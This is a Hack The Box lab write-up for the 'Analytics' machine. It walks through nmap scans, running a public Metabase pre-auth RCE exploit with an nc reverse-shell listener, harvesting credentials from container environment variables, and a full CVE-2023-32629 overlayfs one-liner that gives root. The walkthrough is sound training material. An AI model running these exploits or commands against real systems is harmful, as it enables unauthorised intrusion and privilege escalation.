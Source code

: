 ```yaml
---
title: Hack the box - Analytics pwned!
date: 2024-03-02 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, analytics, docker, metabase, CVE-2023-32629]
img_path: /assets/img/posts/
---
```


## Machine info

![Analytics](htb-analytics-info.png)
*Analytics info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.101
>
>Target machine (victim, Devvortex): 10.10.11.233
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.233`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`nmap -Pn -n -sVC -p22,80 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts`

Now, we browse to the web to take a look:

![Analytics web](htb-analytics-web.png)
*Analytics web*

If we go to the login page it will not work:

![Analytics web login error](htb-analytics-web-login-error.png)
*Analytics web login error*

The login page it's under the domain `data.analytical.htb`, so let's add it to our `/etc/hosts`:

`echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts`

And, let's reload the login page

![Analytics web login page](htb-analytics-web-login.png)
*Analytics web login page*

## Foothold

### Docker container

We can see that is using `metabase`, so let's look for vulnerabilities:

`searchsploit metabase`

`Metabase 0.46.6 - Pre-Auth Remote Code Execution | linux/webapps/51797.py`

Ok, we got one.
It's a RCE (Remote Code Execution), so we will start listening on our side to try to get a remote shell:

`nc -lvnp 1234`

And, now we copy the script to our working directory and we run it:

`cp /opt/exploitdb/exploits/linux/webapps/51797.py metabase_exploit.py`

`sudo python3 metabase_exploit.py --lhost 10.10.16.101 --lport 1234 --sport 80 --url http://data.analytical.htb`

We got shell, but inside a docker container.
If we print the environment variables, we will find some credentials:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=16a5278f5551
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8

META_USER=metalytics
META_PASS=fakepassword

MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=2
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

### metalytics

With our new credentials, we will login through ssh:

`ssh metalytics@10.10.11.233`

First, we get our user flag:

`cat user.txt`

And, now, we see that with our new user we will not be able to escalate privileges...

```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

If we look the system version we can see that is a vulnerable Ubuntu version.

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/linux
```

The vulnerability is [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), so we will exploit it to gain root privileges:

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

Now that we are root, we can get our system flag:

`cat /root/root.txt`

## Pwned!

![Analytics](htb-analytics-pwned.png)
*Analytics has been Pwned*

*Enjoy! ;)*

